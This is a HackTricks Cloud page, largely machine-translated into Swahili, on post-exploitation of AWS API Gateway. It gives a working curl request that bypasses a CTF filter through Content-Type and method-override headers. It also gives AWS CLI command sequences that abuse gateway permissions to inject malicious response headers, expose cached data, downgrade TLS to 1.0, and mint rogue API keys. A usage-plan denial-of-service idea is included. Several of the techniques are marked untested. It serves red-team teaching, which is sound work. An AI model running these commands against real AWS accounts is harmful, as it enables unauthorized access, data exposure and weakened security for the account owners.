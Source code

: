 # AWS - API Gateway Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## API Gateway

Kwa maelezo zaidi angalia:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### Access unexposed APIs

Unaweza kuunda kiunganishi katika [https://us-east-1.console.aws.amazon.com/vpc/home#CreateVpcEndpoint](https://us-east-1.console.aws.amazon.com/vpc/home?region=us-east-1#CreateVpcEndpoint:) na huduma `com.amazonaws.us-east-1.execute-api`, funua kiunganishi katika mtandao ambapo una ufikiaji (labda kupitia mashine ya EC2) na piga kundi la usalama linaloruhusu mawasiliano yote.\
Kisha, kutoka kwa mashine ya EC2 utaweza kufikia kiunganishi na hivyo kuita API ya gateway ambayo haikuwa imefunuliwa hapo awali.

### Bypass Request body passthrough

Teknolojia hii ilipatikana katika [**hii CTF writeup**](https://blog-tyage-net.translate.goog/post/2023/2023-09-03-midnightsun/?_x_tr_sl=en&_x_tr_tl=es&_x_tr_hl=en&_x_tr_pto=wapp).

Kama ilivyoonyeshwa katika [**nyaraka za AWS**](https://docs.aws.amazon.com/AWSCloudFormation/latest/UserGuide/aws-properties-apigateway-method-integration.html) katika sehemu ya `PassthroughBehavior`, kwa kawaida, thamani **`WHEN_NO_MATCH`**, wakati wa kuangalia kichwa cha **Content-Type** cha ombi, itapitisha ombi kwa nyuma bila mabadiliko.

Hivyo, katika CTF, API Gateway ilikuwa na kigezo cha uunganisho ambacho kilikuwa **kikizuia bendera kutolewa** katika jibu wakati ombi lilitumwa na `Content-Type: application/json`:

{% code overflow="wrap" %}
```yaml
RequestTemplates:
application/json: '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename=:moviename","FilterExpression": "not contains(#description, :flagstring)","ExpressionAttributeNames": {"#description": "description"},"ExpressionAttributeValues":{":moviename":{"S":"$util.escapeJavaScript($input.params(''moviename''))"},":flagstring":{"S":"midnight"}}}'
```
{% endcode %}

Hata hivyo, kutuma ombi lenye **`Content-type: text/json`** kungesitisha hiyo chujio.

Hatimaye, kwa kuwa API Gateway ilikuwa ikiruhusu tu `Get` na `Options`, ilikuwa inawezekana kutuma uchunguzi wa dynamoDB bila kikomo kwa kutuma ombi la POST lenye uchunguzi katika mwili na kutumia kichwa `X-HTTP-Method-Override: GET`:

{% code overflow="wrap" %}
```bash
curl https://vu5bqggmfc.execute-api.eu-north-1.amazonaws.com/prod/movies/hackers -H 'X-HTTP-Method-Override: GET' -H 'Content-Type: text/json'  --data '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename = :moviename","ExpressionAttributeValues":{":moviename":{"S":"hackers"}}}'
```
{% endcode %}

### Usage Plans DoS

Katika sehemu ya **Enumeration** unaweza kuona jinsi ya **kupata mpango wa matumizi** wa funguo. Ikiwa una funguo na ime **punguzia** matumizi X **kwa mwezi**, unaweza **kuitumia tu na kusababisha DoS**.

**API Key** inahitaji tu ku **jumuishwa** ndani ya **HTTP header** inayoitwa **`x-api-key`**.

### `apigateway:UpdateGatewayResponse`, `apigateway:CreateDeployment`

Mshambuliaji mwenye ruhusa `apigateway:UpdateGatewayResponse` na `apigateway:CreateDeployment` anaweza **kubadilisha Jibu la Gateway lililopo ili kujumuisha vichwa vya habari vya kawaida au templeti za majibu ambazo zinavuja taarifa nyeti au kutekeleza scripts za uhalifu**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESPONSE_TYPE="DEFAULT_4XX"

# Update the Gateway Response
aws apigateway update-gateway-response --rest-api-id $API_ID --response-type $RESPONSE_TYPE --patch-operations op=replace,path=/responseTemplates/application~1json,value="{\"message\":\"$context.error.message\", \"malicious_header\":\"malicious_value\"}"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Madhara Yanayoweza Kutokea**: Kuvuja kwa taarifa nyeti, kutekeleza skripti zenye uharibifu, au ufikiaji usioidhinishwa wa rasilimali za API.

{% hint style="info" %}
Hitaji la kupima
{% endhint %}

### `apigateway:UpdateStage`, `apigateway:CreateDeployment`

Mshambuliaji mwenye ruhusa `apigateway:UpdateStage` na `apigateway:CreateDeployment` anaweza **kubadilisha hatua ya API Gateway iliyopo ili kuelekeza trafiki kwenye hatua tofauti au kubadilisha mipangilio ya caching ili kupata ufikiaji usioidhinishwa wa data iliyohifadhiwa**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
STAGE_NAME="Prod"

# Update the API Gateway stage
aws apigateway update-stage --rest-api-id $API_ID --stage-name $STAGE_NAME --patch-operations op=replace,path=/cacheClusterEnabled,value=true,op=replace,path=/cacheClusterSize,value="0.5"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Madhara Yanayoweza Kutokea**: Ufikiaji usioidhinishwa wa data iliyohifadhiwa, kuingilia au kukamata trafiki ya API.

{% hint style="info" %}
Inahitaji kupimwa
{% endhint %}

### `apigateway:PutMethodResponse`, `apigateway:CreateDeployment`

Mshambuliaji mwenye ruhusa `apigateway:PutMethodResponse` na `apigateway:CreateDeployment` anaweza **kubadilisha jibu la njia ya API Gateway REST API iliyopo ili kujumuisha vichwa vya habari vya kawaida au templeti za majibu ambazo zinavuja taarifa nyeti au kutekeleza skripti za uhalifu**.
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
STATUS_CODE="200"

# Update the method response
aws apigateway put-method-response --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --status-code $STATUS_CODE --response-parameters "method.response.header.malicious_header=true"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Madhara Yanayoweza Kutokea**: Kuvuja kwa taarifa nyeti, kutekeleza skripti zenye uharibifu, au ufikiaji usioidhinishwa wa rasilimali za API.

{% hint style="info" %}
Hitaji la kupima
{% endhint %}

### `apigateway:UpdateRestApi`, `apigateway:CreateDeployment`

Mshambuliaji mwenye ruhusa `apigateway:UpdateRestApi` na `apigateway:CreateDeployment` anaweza **kubadilisha mipangilio ya API Gateway REST API ili kuzima uandishi wa kumbukumbu au kubadilisha toleo la chini la TLS, ambayo inaweza kudhoofisha usalama wa API**.
```bash
API_ID="your-api-id"

# Update the REST API settings
aws apigateway update-rest-api --rest-api-id $API_ID --patch-operations op=replace,path=/minimumTlsVersion,value='TLS_1.0',op=replace,path=/apiKeySource,value='AUTHORIZER'

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Madhara Yanayoweza Kutokea**: Kupunguza usalama wa API, ambayo inaweza kuruhusu ufikiaji usioidhinishwa au kufichua taarifa nyeti.

{% hint style="info" %}
Inahitaji kupimwa
{% endhint %}

### `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, `apigateway:CreateUsagePlanKey`

Mshambuliaji mwenye ruhusa `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, na `apigateway:CreateUsagePlanKey` anaweza **kuunda funguo mpya za API, kuziunganisha na mipango ya matumizi, na kisha kutumia funguo hizi kwa ufikiaji usioidhinishwa kwa APIs**.
```bash
# Create a new API key
API_KEY=$(aws apigateway create-api-key --enabled --output text --query 'id')

# Create a new usage plan
USAGE_PLAN=$(aws apigateway create-usage-plan --name "MaliciousUsagePlan" --output text --query 'id')

# Associate the API key with the usage plan
aws apigateway create-usage-plan-key --usage-plan-id $USAGE_PLAN --key-id $API_KEY --key-type API_KEY
```
**Madhara Yanayoweza Kutokea**: Ufikiaji usioidhinishwa wa rasilimali za API, kupita udhibiti wa usalama.

{% hint style="info" %}
Inahitaji kupimwa
{% endhint %}

{% hint style="success" %}
Jifunze na fanya mazoezi ya AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Jifunze na fanya mazoezi ya GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuatilie** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Shiriki mbinu za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}
